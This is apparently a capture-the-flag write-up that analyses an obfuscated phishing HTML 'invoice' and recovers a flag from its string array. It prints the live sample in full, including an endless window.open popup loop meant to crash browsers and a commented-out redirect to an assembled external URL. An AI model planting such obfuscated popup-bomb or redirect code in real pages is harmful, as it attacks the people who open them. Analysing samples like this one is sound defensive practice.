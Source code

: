 # danger-Live-and-Malicious-Code

## Description

Like the title says, this challenge is dangerous and contains live malware.

Shoutout to the hacker that I stole this from challenge from. Sadly I can't give them credit because they sent the phish from a compromised email, but it's literally his/her code. I just defanged it (a little bit - it will still crash your webbrowser (usually, but don't test that outside of a VM)) and stuck a WPI flag in here.

To prevent accidental execution the file has been zipped with the password "I_understand_that_this_challenge_contains_LIVE_MALWARE"

http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip

made by: The_Abjuri5t (John F.)

## Download and inspect the code

```
kali@kali:~/Downloads/wipctf$ wget http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
--2020-04-18 16:02:14--  http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
Resolving us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)... 173.255.231.96, 45.79.157.59, 96.126.106.143, ...
Connecting to us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)|173.255.231.96|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 729 [application/zip]
Saving to: ‘invoice.zip’

invoice.zip              100%[==================================>]     729  --.-KB/s    in 0s      

2020-04-18 16:02:14 (107 MB/s) - ‘invoice.zip’ saved [729/729]

kali@kali:~/Downloads/wipctf$ unzip invoice.zip 
Archive:  invoice.zip
[invoice.zip] invoice.html password: 
  inflating: invoice.html

kali@kali:~/Downloads/wipctf$ ls -l
total 8
-rw-r--r-- 1 kali kali 1243 Feb 22 22:29 invoice.html
-rw-r--r-- 1 kali kali  729 Apr 14 21:29 invoice.zip

kali@kali:~/Downloads/wipctf$ cat invoice.html 
<html>
<head>
<title></title>
</head>
<body>
<script>var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}</script></body>
</html>
```

Use `uglifyjs` to demangle that code.

```
kali@kali:~/Downloads/wipctf$ uglifyjs -b
var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}

var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

function abc(def) {
    popupWindow = window.open(def, "popUpWindow", "height=666,width=666,left=666,top=666");
}

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }
    };
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

for (var i = 1; i === i; i++) {
    abc(self.location, "_blank");
}
```

The for loop at the bottom is an infinite loop to create pop-up windows. We definitely don't want to run that. The other variables look interesting though. The flag is being built from the array of strings on the first line. Let's print them out and see what happens.

```
kali@kali:~/Downloads/wipctf$ cp invoice.html invoice_mod.html
kali@kali:~/Downloads/wipctf$ vim invoice_mod.html
kali@kali:~/Downloads/wipctf$ cat invoice_mod.html
<html>
<head>
<title></title>
</head>
<body>
<script>
var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }   
    };  
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};  

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

document.write("a: " + a + "<br>\n");
document.write("b: " + b + "<br>\n");
document.write("c: " + c + "<br>\n");
document.write("d: " + d + "<br>\n");
document.write("e: " + e + "<br>\n");
document.write("f: " + f + "<br>\n");
document.write("g: " + g + "<br>\n");
</script>
</body>
</html>
```

## Get the flag

Open `invoice_mod.html` in firefox and get:

```
a: lac,ryt,d}.,cod,pro,_no,ran,ing,dom,str,ete,rep,ps:,cte,5df,se_,toS,ing,tri,sub
b: function(c, d) { c = c - 0; var e = a[c]; return e; }
c: https://tryt5dfxc-rWPI
d: {Oh_nose_procoding_d
e: etected}.net/
f: 444423500012190de9ae4937da
g: deygcrb1hmfhgg1r9kty5a
```

The flag is:

```
WPI{Oh_nose_procoding_detected}
```

